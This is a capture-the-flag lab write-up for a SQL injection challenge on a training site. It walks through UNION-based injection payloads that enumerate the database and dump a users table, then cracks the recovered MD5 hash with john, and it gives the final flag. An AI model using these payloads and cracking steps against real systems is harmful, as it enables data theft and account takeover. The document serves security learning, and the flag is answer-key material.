 # SQL injection
- a type of attack where a malicious user attempts to pass input that alters the final SQL query sent by the web application to the database
- the attacker first injects SQL code and then manipulates the web application logic, either by changing the original query or executing a completely new one
- https://book.hacktricks.xyz/pentesting-web/sql-injection

<b>keywords</b>: SQL<br>
<b>attacked site</b>: http://borntosec.42/?page=members

## Exploit
On the member page, there's a search bar. After entering a string to search for, the backend likely executes a query to the database to retrieve and display data. To check if SQL injection is possible, we pass a punctuation mark (<code>'</code>) as input:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```
This input disrupts the database and generates an error, indicating that SQL injection may be possible. Next, we’ll determine the number of columns in the table using the <code>ORDER BY</code> clause. We increment the column index to identify when the table ends:
``` SQL
1 OR 1=1 ORDER BY 1-- -
1 OR 1=1 ORDER BY 2-- -
1 OR 1=1 ORDER BY 3-- -
```
The third column is inaccessible, meaning the table has 2 columns. We can now check the database version and username:
``` sql
1 OR 1=1 UNION SELECT @@version,user()-- -
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT @@version,user()-- - 
First name: 5.5.64-MariaDB-1ubuntu0.14.04.1
Surname : borntosec@localhost
```
Next, we retrieve the names of all database schemas:
``` sql
1 OR 1=1 UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -
```
└─     Output:
```
information_schema
Member_Brute_Force
Member_Sql_Injection
Member_guestbook
Member_images
Member_survey
```
We proceed by identifying the current database:
``` sql
1 OR 1=1 UNION SELECT 1,database()-- -
```
└─     Output:
```
Member_Sql_Injection
```
With the current database identified, we search for a table that might contain the flag:
``` sql
1 OR 1=1 UNION SELECT TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES-- -
```
└─     Output:
```
[...]
ID: 1 OR 1=1 UNION SELECT TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES--  
First name: users
Surname : Member_Sql_Injection
[...]
```
Next, we check the columns in this table:
``` sql
1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS-- -
```
└─     Filtered output:
```
[...]
ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: user_id
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: first_name
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: last_name
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: town
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: country
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: planet
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: Commentaire
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: countersign
Surname : users
[...]
```
Enumerating the columns manually is time-consuming, so we concatenate the column values and display them in the second column:
``` sql
1 OR 1=1 UNION SELECT 1, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users 
First name: 1
Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```
The output provides a hashed password. We use <code>hash-identifier</code> to determine the hash type:
``` shell
└─$ hash-identifier sql_hash.txt                                                     
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 5ff9d0165b4f92b14994e5c685cdce28

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
Knowing the hash type, we brute-force the password using <code>john</code>:
``` shell
└─$ john sql_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/5million.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
FortyTwo         (?)     
1g 0:00:00:00 DONE (2024-08-08 23:22) 7.142g/s 16457p/s 16457c/s 16457C/s amore..marianne
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Finally, we hash the password in lowercase using SHA-256:
``` shell
└─$ echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```
## Flag
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
